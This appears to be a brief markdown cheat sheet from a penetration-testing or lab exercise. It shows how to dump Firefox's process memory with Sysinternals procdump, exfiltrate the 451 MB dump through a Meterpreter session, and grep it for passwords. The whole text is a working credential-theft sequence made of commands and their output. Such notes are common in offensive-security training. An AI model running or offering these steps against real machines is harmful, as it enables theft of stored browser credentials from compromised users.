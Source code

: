# procdump

## procdump (de sysinternals)

C:\Users\Chase\Documents>.\procdump.exe -accepteula -ma <pid> 
.\procdump.exe -accepteula -ma 6800

## meterpreter
meterpreter > download firefox_190921_223833.dmp
[*] Downloaded 451.12 MiB of 451.12 MiB (100.0%): firefox_190921_223833.dmp -> firefox_190921_223833.dmp
[*] download   : firefox_190921_223833.dmp -> firefox_190921_223833.dmp

$ strings firefox.exe_190921_173846.dmp |grep password


